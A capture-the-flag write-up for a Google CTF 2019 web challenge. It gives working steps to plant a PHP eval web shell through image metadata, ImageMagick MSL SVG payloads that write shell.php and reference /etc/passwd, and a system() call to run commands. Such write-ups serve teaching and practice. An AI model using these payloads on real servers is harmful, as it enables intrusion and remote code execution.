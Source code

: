 # CTF Name – Google Capture The Flag 2019 (Quals)

* **Category:** Web
* **Points:** 500

## Challenge

> Upload your photoz. FYI: /info.php
>
>Alternative: http://gphotos2.ctfcompetition.com:1337
> http://gphotos.ctfcompetition.com:1337/

### Recon

So starting out I decided to look at the source code of the web page and found out that there was a link to the php source code. I downloaded the php code and looked through it. 

Noticing a comment saying totally not copy&pasted from somewhere... so I decided to copy and past the first couple lines of the code and found <a href="https://jbz.team/midnightsunctfquals2019/Rubenscube">https://jbz.team/midnightsunctfquals2019/Rubenscube</a>. It was a challenge from another CTF Called Midnight Sun CTF 2019 Quals - Rubenscube. At that point I knew that in order to get the flag there was some sort of XXE involved.

### The troubles

I decided to copy and paste the svg code into my own file and uploaded it. I waited and nothing happened it didn't even display on the page. I got really frustrated because at this point there was 4 hours left until the CTF was over. So I kept looking on the internet and kept copying and pasting svg code and every time nothing worked. Then it hit me I needed to add an xml beginning tag to the top of the svg code. So I did that uploaded it and the image was on the page but no XXE happened. At this point I lost all hope in trying XXE attacks and wasn't able to finish on time. 

### The next day

I decided to give it another shot and heard that the intended way to solve the challenge was to use imagemagick. After hearing that I had looked up imagemagick vulnerabilities and found an RCE from 2016 called imagetragick, but being the stubborn person I am I kept going with my way and decided to make an image named hello.png and found out that exiftool can add comments just like imagemagick using the command
> exiftool -Comment='\<?php eval($_GET["cmd"]);?>' hello.png

I uploaded the picture and it failed then I realized the image had to be 100x100 and went into pinta and resized it. I uploaded it to the page and it succeeded in uploading. After I downloaded the image to make sure the comment metadata stayed on the image but it wasn't there. So I got a little upset took a look at the code and noticed these lines
>$size = get\_size(\$path, \$mime_type);
>
        >if (\$size[0] * $size[1] > 65536) {
         >   die;
        >}

I assumed that meant that the size of the image has to be bigger than 65536 to keep the comment metadata. So I drew an image and would keep checking to see if my image was over 65536. (I am assuming that 65536 is bits which would be 8.192 kb). After I got above that 65536 number I added the comment and sent it to the website. I downloaded the image, low and behold the comment metadata was still there. Once I saw that I fumbled around for a bit until I found a page that showed me svg code that could bypass image magick. I copied the svg code to make the image and made it a few lines smaller and it worked perfect for my needs. After that was time for the RCE which I made another svg file to just run the imagetragick vulnerability and got the flag.

## Solution

###Step one
Make an image that is 100x100 and is atleast 8 kb in size. Then use the command
> exiftool -Comment='\<?php eval($_GET["cmd"]);?>' ("your image name").png

then upload the image.

###Step two

click the image then copy from where /upload begins in the url bar all the way to the end.

make an svg file that looks some what like this
> \<?xml version="1.0" encoding="UTF-8" ?>
> \<image>
> \<read filename="/var/www/html/(substitute this for what you copied in the url bar)" />
 > \<write filename="var/www/html/upload/shell.php"/>
 > \<svg width="120px" height="120px">
 >  \<image href="text:/etc/passwd" />
> \</svg>
> \</image>


###Step three
click on the svg file you uploaded earlier and copy from where /upload begins in the url bar all the way to the end

upload another svg file that looks some what like 
> \<?xml version="1.0" encoding="UTF-8"?>
> \<svg width="120px" height="120px">
 > \<image href="msl:/var/www/html(substitute this for what you copied in the url bar)" />
> \</svg>

###Last step
in the url bar type in gphotos2.ctfcompetition.com:1337/upload/shell.php?cmd=system("cd ../../../../../../; /get_flag"); then scroll down all the way to the bottom and you should see the flag

###Flag
CTF{8d62b2ffc578227e67ca8bab53420ded}
